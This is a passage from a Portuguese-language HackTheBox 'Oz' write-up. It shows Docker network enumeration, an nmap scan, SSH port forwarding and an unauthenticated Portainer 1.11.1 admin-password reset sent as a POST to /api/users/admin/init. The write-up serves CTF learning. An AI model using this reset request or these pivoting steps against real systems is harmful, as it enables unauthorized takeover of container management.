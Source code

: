 Nós temos permissão para listar a network dos containers e para ver informações sobre as mesmas. Decidindo ver as informações da network **bridge**, nós nos deparamos com algo interessante: está rodando um serviço chamado "**portainer**", como é possível ver quando listamos as informações.

```json
"Containers": {
            "e267fc4f305575070b1166baf802877cb9d7c7c5d7711d14bfc2604993b77e14": {
                "Name": "portainer-1.11.1",
                "EndpointID": "fb5856e37c481199e5f80b14fe76c79b4cffd5a78bd40c87f613afd25995123c",
                "MacAddress": "02:42:ac:11:00:02",
                "IPv4Address": "172.17.0.2/16",
                "IPv6Address": ""
            }
```

Rodando um nmap no IP do container que está rodando esse serviço, nós vemos que a mesma está localizada na porta 9000. Veja:

```jsx
Discovered open port 9000/tcp on 172.17.0.2
Completed Connect Scan at 16:27, 0.00s elapsed (1 total ports)
Nmap scan report for 172.17.0.2
Host is up (0.00043s latency).
PORT     STATE SERVICE
9000/tcp open  unknown
```

```bash
ssh -L 9000:172.17.0.2:9000 -R 9000:172.17.0.2:9000 -i id_rsa dorthi@10.10.10.96
```

Realizando o port fowarding via SSH, nós nos deparamos com a seguinte interface do portainer:

![Untitled](Oz%20-%20HackTheBox%20Writeup%2070ece9237c34438baab3b83f5dd3cffc/Untitled%2017.png)

Como vimos, nós nos deparamos com uma tela de login. Testando por default credencials, como admin:admin, admin:password, guest:guest, nenhuma nos retorna algo 😔. Com isso, eu fui pesquisar se havia algum exploit público para a versão do portainer. Para quem não se lembra, a versão apareceu quando executamos o comando "**sudo /usr/bin/docker network inspect bridge**", se liga:

```json
"Name": "portainer-1.11.1",
```

Feito isso, eu consegui achar um suposto exploit de **reset admin credentials** para a exata versão rodando no [GitHub](https://github.com/portainer/portainer/issues/493). Para realizarmos o exploit, nós enviamos uma requisição **POST** para o diretório **/api/users/admin/init** com um JSON especificando o usuário e a senha.

```json
{
	"Username":"admin",
	"Password":"admin"
}
```

Feito isso, nós enviamos a requisição e a nova senha do admin será setada para a que escolhemos! 👾
